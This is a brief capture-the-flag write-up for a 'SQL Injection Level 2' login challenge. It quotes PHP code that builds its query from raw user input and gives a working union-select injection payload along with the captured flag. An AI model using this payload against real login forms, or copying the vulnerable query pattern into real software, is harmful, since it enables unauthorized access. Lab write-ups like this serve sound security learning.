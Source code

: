# [SQL Injection Level 2](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%202)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level2/)

# Solution
1. Analyze the code.
```php 
$query = "SELECT * FROM users WHERE username='{$_POST['username']}'";

if (mysqli_num_rows($result) == 1)
{
	$row = $result->fetch_assoc();
	if ($row['password'] === $_POST['password'])
	{
		echo $success_page;
	}
}
```
2. Suppose we inserted to query some row, e.g. `username='test', password='test'`. Then we can get to success page.
3. We can input: 
username: `' union select 0, 'test', 'test';#`
password: `test`

**Answer**: `flag{bab5ac671c3fbc16daac54506ac3ea5a}`